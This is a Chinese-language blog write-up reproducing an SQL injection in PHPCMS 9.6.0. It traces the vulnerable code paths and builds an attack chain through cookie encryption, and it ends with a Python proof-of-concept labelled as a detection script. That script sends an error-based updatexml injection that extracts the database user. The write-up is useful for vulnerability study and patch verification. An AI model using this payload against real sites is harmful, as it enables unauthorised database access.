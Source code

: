 date: 2020-02-13
categories:
- cve复现
tags:
- cve复现
title: phpcmsv9.6.0SQL注入
---
# phpcmsv9.6.0SQL注入

## 利用条件

1. 开启wap
2. phpcms 版本小于等于9.6.0



## 漏洞复现

漏洞信息:

> 这个版本的 **SQL注入** 主要在于程序对解密后的数据没有进行过滤. 漏洞文件: **phpcms/modules/content/down.php** 。在其 **init** 方法中，从 **GET** 数据中获取了 **a_k** 的值 ,解密后直接变量覆盖,导致命令执行

```php
public function init() {
		$a_k = trim($_GET['a_k']);
		$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		parse_str($a_k);
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	
		...
	}
```

`$this->db->get_one(array('id'=>$id));	`跟进去

```php
final public function get_one($where = '', $data = '*', $order = '', $group = '') {
		if (is_array($where)) $where = $this->sqls($where);
		return $this->db->get_one($data, $this->table_name, $where, $order, $group);
	}
```



```php
final public function sqls($where, $font = ' AND ') {
		if (is_array($where)) {
			$sql = '';
			foreach ($where as $key=>$val) {
				$sql .= $sql ? " $font `$key` = '$val' " : " `$key` = '$val'";
			}
			return $sql;
		} else {
			return $where;
		}
	}
```



```php
public function get_one($data, $table, $where = '', $order = '', $group = '') {
		$where = $where == '' ? '' : ' WHERE '.$where;
		$order = $order == '' ? '' : ' ORDER BY '.$order;
		$group = $group == '' ? '' : ' GROUP BY '.$group;
		$limit = ' LIMIT 1';
		$field = explode( ',', $data);
		array_walk($field, array($this, 'add_special_char'));
		$data = implode(',', $field);

		$sql = 'SELECT '.$data.' FROM `'.$this->config['database'].'`.`'.$table.'`'.$where.$group.$order.$limit;
		$this->execute($sql);
		$res = $this->fetch_next();
		$this->free_result();
		return $res;
	}
```



没有对解密后的id进行任何过滤

接着要找一个能用相同密钥加密的地方,这样便无需暴露auth_key就能执行恶意sql语句

我们利用` set_cookie`来生成加密数据

`setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);`

查找调用`set_cookie`且值`$value`可控的位置



`phpcms/modules/attachment/attachments.php` 文件的 `swfupload_json` 方法有满足我们需要的代码。(菜鸡直接看别人找到的)

```php
public function swfupload_json() {
		$arr['aid'] = intval($_GET['aid']);
		$arr['src'] = safe_replace(trim($_GET['src']));
		$arr['filename'] = urlencode(safe_replace($_GET['filename']));
		$json_str = json_encode($arr);
		$att_arr_exist = param::get_cookie('att_json');
		$att_arr_exist_tmp = explode('||', $att_arr_exist);
		if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
			return true;
		} else {
			$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
			param::set_cookie('att_json',$json_str);
			return true;			
		}
	}
```

`$arr['src'] = safe_replace(trim($_GET['src']));`,跟进`safe_replace`

```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```

虽然这里单引号被过滤了,但是前面是用`parse_str($a_k);`来恢复变量的,我们可以利用`safe_replace`能将某些字符替换为空格用url编码来绕过黑名单

但是在调用`swfupload_json` 前,它还会调用`__construct`方法

```php
function __construct() {
		pc_base::load_app_func('global');
		$this->upload_url = pc_base::load_config('system','upload_url');
		$this->upload_path = pc_base::load_config('system','upload_path');		
		$this->imgext = array('jpg','gif','png','bmp','jpeg');
		$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
		$this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
		$this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
		//判断是否登录
		if(empty($this->userid)){
			showmessage(L('please_login','','member'));
		}
	}
```

我们需要用`sys_auth($_POST['userid_flash'],'DECODE')`来生成`$this->userid`,来绕过死亡exit

这次我们还需要找一个地方来生成`userid`,但是限制更少了,只要`$this->userid`不为空即可

 我们可以搜到 `phpcms/modules/wap/index.php` 文件，在该文件中 `$_GET['siteid']` 可控，并且可以通过 **cookie** 获得加密后的数据,虽然有intval来过滤

```php
function __construct() {		
		$this->db = pc_base::load_model('content_model');
		$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
		param::set_cookie('siteid',$this->siteid);	
		$this->wap_site = getcache('wap_site','wap');
		$this->types = getcache('wap_type','wap');
		$this->wap = $this->wap_site[$this->siteid];
		define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
		if($this->wap['status']!=1) exit(L('wap_close_status'));
	}
```

于是整个攻击链便完整了

先利用wap来获得`userid`

` http://127.0.0.1/cms/phpcms/9.6.0/index.php?m=wap&siteid=1 `

`2a8a6kid_pv1EoSGXugr-5BZDZWzDhaB7W3EtXou`

再利用attachment来获得加密的恶意sql语句

```
http://127.0.0.1/cms/phpcms/9.6.0/index.php?m=attachment&c=attachments&a=swfupload_json&src=(看poc吧)
post:
userid_flash=2a8a6kid_pv1EoSGXugr-5BZDZWzDhaB7W3EtXou
```



## 检测脚本

```python
import re
import requests
import random

def poc(url,proxies={}):
    sess=requests.session()
    sess.get("%s/index.php?m=wap&siteid=1"%url)
    sess.proxies=proxies
    pre=list(sess.cookies.get_dict())[0][:5]+"_"
    userid=sess.cookies.get_dict()[pre+"siteid"]
    param={
        "m":"attachment",
        "c":"attachments",
        "a":"swfupload_json",
        "src":"=1&id=nobodyasdfsdsf%2;7-(updatexml(1,concat(0x7e,(select%2;0user()),0x7e),1))%23&m=1&modelid=1&catid=1&f=1&ss"
    }
    sess.post("%s/index.php"%url,params=param,data={"userid_flash":userid})
    a_k=sess.cookies.get_dict()[pre+"att_json"]
    result=sess.get("%s/index.php?m=content&c=down&a=init&a_k=%s"%(url,a_k)).text
    #print(userid,a_k)
    if "XPATH syntax error" in result:
        return True
    return False
    

#,{"http":"socks5://127.0.0.1:1080"}
print(poc("http://127.0.0.1/cms/phpcms/9.6.0/"))
```





## 参考

 [https://mochazz.github.io/2019/07/18/phpcms漏洞分析合集](https://mochazz.github.io/2019/07/18/phpcms漏洞分析合集)

 